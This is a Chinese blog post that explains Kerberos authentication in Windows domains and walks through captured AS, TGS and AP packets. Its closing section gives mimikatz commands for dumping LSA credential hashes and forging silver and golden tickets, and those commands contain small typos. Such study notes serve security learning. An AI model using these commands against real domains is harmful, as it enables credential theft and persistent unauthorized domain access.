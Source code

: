 ```yaml
---
layout:     post
title:    Kerberos理解
subtitle:   Kerberos认证机制理解
date:       2020-05-27
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - Kerberos
    - 内网
    - 域渗透
    
    
---
```

# Kerberos理解

## 简介
Windows体系下两种认证机制，NTLM与Kerberos。上一篇对NTLM认证机制进行了分析。这里主要对Kerberos认证机制进行理解。   
Kerberos是一种网络认证协议，其设计目标是通过密钥系统为客户机/服务器应用程序提供强大的认证服务。该认证过程的实现不依赖于主机操作系统的认证，无需基于主机地址的信任，不要求网络上所有主机的物理安全，并假定网络上传送的数据包可以被任意地读取、修改和插入数据。在以上情况下， Kerberos作为一种可信任的第三方认证服务，是通过传统的密码技术（如：共享密钥）执行认证服务的。   
### 特点
- 1.不怕中间人攻击   
- 2.不依赖主机认证   

## 主要角色
- 1. Client (废话)
- 2. Server  
- 3. KDC(Key Distribution Center) 在DC(Domain Controller)上  

常见名词解释：TGT(Ticket Granting Ticke):一种临时凭证用于获得票据。AD(account database):存储所有client的白名单，只有存在于白名单的client才能顺利申请到TGT。AS(Authentication Service):生成TGT的服务。TGS(Ticket Granting Service):票据生成服务。三者均是KDC的组成部分。   

## 简单流程分析
KDC中参与角色AD，AS，TGS，每次都是一个来回，所以整个过程就是3个来回。  
- 1.Client向KDC发起请求(请求包含用户名)，请求访问某服务，KDC接收到请求后，由AS完成最先的验证工作，通过AD中的白名单来判断，如果主机名存在于AD中，就返回TGT给Client。  
- 2.Client收到TGT后，再向Kerbroes发起请求，需要指定服务的权限，AS返回Ticket给Client。  
- 3.Client收到Ticket后去请求登录服务，服务会向Kerbroes核实这个ticket是否真实有效，有效则完成认证通过。   

### 数据包分析
分别是三个来回，我们一个一个来看，中间踩了几个坑，人傻掉了，本来想用mimikatz直接生成票据，看数据包，肯定是没有的，没有交互的。最后是用smb，中间加一个认证过程，抓到整个流程，每个请求拿出来简单看一下，每个字段没有深入去研究，只是粗略的看了一下，简单理解下整个认证过。  
根据上面的流程分析：  
- 1.第一步Client会向KDC发起请求(请求包含用户名)，请求访问某服务，KDC接收到请求后，由AS完成最先的验证工作，通过AD中的白名单来判断，如果主机名存在于AD中，就返回TGT给Client。体现在数据包中就是一来一回，一个请求一个响应。   

请求：AS_REQ  
![200528_1](/img/200528_asreq.png)      
可以看到，发送的请求中包含了一些身份信息（用户名），KDC收到后会去判断是否在AD白名单中。  
响应：AS_REP   
![200528_2](/img/200528_asrep.png)   
KDC通过对应请求的用户的NTLM hash对一个随机字符串进行加密，再使用krbtgt hash加密返回给client，这就是TGT。由于没有krbtgt hash，TGT是没有办法短时间破解的，这也确保了kerberos能在不安全的网络下工作。  

- 2.第二步Client收到TGT后，再向Kerbroes发起请求，需要指定服务的权限，AS返回Ticket给Client。同样体现在数据包中也是是一来一回，一个请求，一个响应。  
请求：TGS_REQ   
![200528_3](/img/200528_tgsreq.png)    
可以看到这里请求中包含了服务类型，因为我是想进行文件共享，所以这里的类型的cifs，其他类似的还有host，http等服务名，根据自己请求的服务不同，这里的类型也会有变化。  这里不知道为什么，可能是次数没对应上，所以前面的TGT内容和上面的响应中有出入，按理是一样的。    
响应：TGS_REP   
![200528_4](/img/200528_tgsrep.png)   
然后KDC中的TGS返回票据给client。  

- 3.第三步Client收到Ticket后去请求登录服务，服务会向Kerbroes核实这个ticket是否真实有效，有效则完成认证通过，这里有个坑，请求响应的过程不是单独的，是包含在对应请求的服务中，这里我是smb服务，请求响应都在smb的报文中。  

请求：AP_REQ   
![200528_5](/img/200528_apreq.png)   
可以看到AP_REQ是包含在smb的报文中。  
响应：AP_REP
![200528_6](/img/200528_aprep.png)   
返回响应，票据有效认证通过，继续就是进入正常的smb流程。   
![200528_7](/img/200528_smb.png)   

## 票据伪造
这里图没有多少，只是简单提及一下，带过理解即可。  
### 白银票据
需要的只是对应服务的NTLM hash。  

用mimikatz导出：  
```
mimikatz.exe "privilege::debug” "lsasdump::lsa /patch" "exit" > 1.txt
```   
![200528_9](/img/200528_krbtgt.png)  
然后：  
```
klist purge  //清除已有的票据   
mimikatz.exe
kerberos::golden /domain: domain name /sid: SID /target: target name /rc4:NTLM Hash /service: service type  /user: username /ptt
```

### 黄金票据  
需要krbtgt hash。  

其他都一样：  
```
kerberos::golden /domain: domain name /sid: SID /rc4: krbrgt Hash /user: username /ptt   
```
！[200528_8](/img/200528_golden.png)   
成功以后如图所示。  






## 参考

[https://payloads.online/archivers/2018-11-30/1](https://payloads.online/archivers/2018-11-30/1)   
 














